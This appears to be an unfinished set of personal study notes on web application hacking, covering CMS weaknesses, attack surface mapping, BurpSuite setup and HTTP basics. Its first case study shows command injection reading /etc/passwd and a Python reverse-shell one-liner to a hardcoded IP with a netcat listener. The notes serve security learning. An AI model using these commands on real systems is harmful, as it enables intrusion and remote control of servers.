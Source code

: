 # Web Application Basics & Exploitation
- Internet Workflow
  ![image](https://github.com/user-attachments/assets/4910ffa0-592d-42ab-955e-c8952e1ec69e)

- Web Application Architecture
  ![image](https://github.com/user-attachments/assets/73c7c49b-b8d5-4801-b5f1-a67680224044)
- Content Management Systems (CMS) offers a flexible, back-end interface for users to edit, modify, and publish content on a website. CMS are fully managed by frameworks
- Over a third of websites online are powered by four key platforms: WordPress, Joomla, Drupal and Magento
- CMS can be hacked due to the following reasons:
  - Outdated version
  - Inexperienced administrators
  - Wide permissions to normal users
  - Malicious plugins
  - Phishing attempts
  - Few are open source



## Custom Web Application Exploitation
#### Case Study: Threat Actor Attempts to Compromise an Organisation-managed Website
1. A website's phpinfo() page
   ![image](https://github.com/user-attachments/assets/cbfbcbe7-1759-4771-918c-33e1f3c5d96d)
2. Execute commands by adding `/?cmd=whoami` at the end of the IP address/URL returns `apache`
3. Adding `/?cmd=hostname` returns `ip-10-1-1-155.us-east-2.compute.internal`
4. Adding `/?cmd=cat /etc/passwd` returns the following
   ![image](https://github.com/user-attachments/assets/9b9e579d-1944-4e78-8343-bef641d6b518)
5. To make the output readable, add `view-source:` before http of the URL
   ![image](https://github.com/user-attachments/assets/183f8a0d-8619-4dcb-82c8-95a3bc20d6e6)
6. The user runs `nc -nlvp 4443` on their system to start Netcat in listening mode (`-l`), does not resolve DNS lookups (`-n`), provides verbose output (`-v`) and specifies port 4443 (`-p 4443`) to listen for incoming connections on that port
7. The following command is added after `/?cmd=` after the URL to establish a reverse shell connection to the attacker's machine
   ```
   python -c 'import socket,subprocess,os;
   s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
   s.connect(("44.202.84.194",4443));
   os.dup2(s.fileno(),0);
   os.dup2(s.fileno(),1);
   os.dup2(s.fileno(),2);
   subprocess.call(["/bin/sh","-i"])'
   ```
    ![image](https://github.com/user-attachments/assets/34fea118-b70d-47f3-b4c3-026d58a256eb)
8. Once the connection is established, commands like `/sbin/ifconfig` and `ps-aux` can be executed to get more details








#### Case Study: Threat Actor Attempts to Compromise WordPress
[Damn Vulnerable WordPress](https://github.com/vavkamil/dvwp) by Kamil Vavra on GitHub

![image](https://github.com/user-attachments/assets/2c960e13-4ed8-4095-b508-f60cd9e19554)
[Botnet of Infected WordPress Sites Attacking WordPress Sites](https://www.wordfence.com/blog/2018/12/wordpress-botnet-attacking-wordpress/) by Wordfence

#### Custom Code (Made from scratch)
- Developer implements the designs / workflow as per the requirement of the project
- Ease of fulfilling the updates as per the requirement, but small update needs to be fixed by a professional developer

#### Hacking websites made from scratch
- Overly mis-configured setup
- Bad business logic
- Vulnerable libraries in the languages
- Integration with multiple other frameworks / languages
- Chaining multiple vulnerabilities
- Other attack vectors

#### Mapping attack surface
![image](https://github.com/user-attachments/assets/9af95055-c09e-4ba3-a8ae-21ae05b5c5a0)
- Attack surface analysis is the mapping of part of a web application that needs to be analysed and tested for security vulnerabilities
- Used by security researchers to understand the in-depth working of the web app
- The main aim is to identify the attack vectors that can be leveraged externally

#### Points worth the time investment
- Login/Logout Fields
- Admin Spaces
- Logic Workflow
- Files uploaded by users
- Extranet interfaces (if any)
- Communication with other applications / systems via interfaces
- Custom implemented protocols / APIs etc
- Critical libraries like : Authentication / Authorization / Session management etc

#### Validate the findings
- Enumeration is the key, take your time to analyse the application workflow
- Identify misconfigurations that are not baselining with the standards
- Identify the risk associated with the identified mis-configurations
- Perform Penetration Testing
- Validate the findings
- Document & Report as required

#### Vulnerabilities
- Server-side Vulnerabilities
  - Command Injection
  - Directory Traversal
  - Server-side Request Forgery (SSRF)
  - SQL Injection
  - File Upload
  - Information Disclosure
- Client-side Vulnerabilities
  - Cross-site Scripting (XSS)
  - Clickjacking
  - Cross-side Request Forgery (CSRF)
  - Cross-origin Resource Sharing (CORS)


## Configure Web Application Debugging & Exploitation Tool (BurpSuite)
1. In Kali Linux VM, start BurpSuite. Choose Temporary Projects and use Burp defaults
2. To configure Proxy in Firefox browser, go to Settings, search for proxy. Select Manual proxy configuration, insert `127.0.0.1` as HTTP Proxy with port 8080. Use the same proxy for HTTPS
   ![image](https://github.com/user-attachments/assets/fad4ff3b-4266-431d-b9de-b8f3e6444180)
3. In a new tab, go to `localhost:8080`. If it works, the Burp Suite Community Edition localhost webpage would appear


## Capture & Modify Requests Using BurpSuite
#### Understanding the Request-Response Model
- The Accounting of who, what and when made the request is not done on the connection endpoints
- In Simple Words, Each request is replied with a response which is not accounted on the either connection endpoints
- Example of the Request-Response Model can be seen below
  ![image](https://github.com/user-attachments/assets/ad7f4607-6599-4ab1-a75f-4483bf90b6d0)

#### Understanding HTTP Request
- When we enter a URL in our browser to view a web page, our browser makes a HTTP Request. A typical HTTP Request looks like
  ![image](https://github.com/user-attachments/assets/19a2b30d-8357-4ce0-a236-d83607831a39)
- HTTP defines a set of request methods to indicate desired action
  - GET method is used to retrieve data
  - POST method is used when user wants to submit entity to specified resource
  - PUT method is used when user wants to replace existing object in the target URL with something else
  - HEAD method is identical to GET, but HEAD is made to retrieve only HEAD without Body in response
  - DELETE method is used to delete specified resource
  - CONNECT method is used to create a tunnel to the server identified by target resource
  - OPTIONS method is used to describe the communication options for the target resource
  - TRACE method performs a message loop-back test along the path to the target resource
  - PATCH method is used to apply partial modifications to a resource
- We can use the `curl` command with the OPTION method to provide all the methods allowed on a specific resource
  `curl -v -X OPTIONS http://www.example.com`
  ![image](https://github.com/user-attachments/assets/8d9a4f37-55b0-4d9e-88ce-70ce045a1fe6)
- The HTTP Host header specifies the domain name of the server and the TCP port number on which the server is listening. If the request is made to the web server with the HTTPS protocol, the default syntax is used
  Syntax of Host header: `Host: <host>:<port>` | `Host: www.example.com:4443`
- The HTTP User-Agent header is a characteristic string that lets servers and network peers identify the application, operating system, vendor, and/or requesting user-agent version
  Syntax of User-Agent header: `User-Agent: <product>/<product-version> <comment>` | `User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.6`
- 


#### Understanding HTTP Response
- 

    

  
1. After configuring Proxy in Firefox browser, navigate to the Proxy tab in BurpSuite. Switch on the Intercept to intercept requests made to server
2. 



## Internationalised Domain Names (IDN) Homograph Attacks

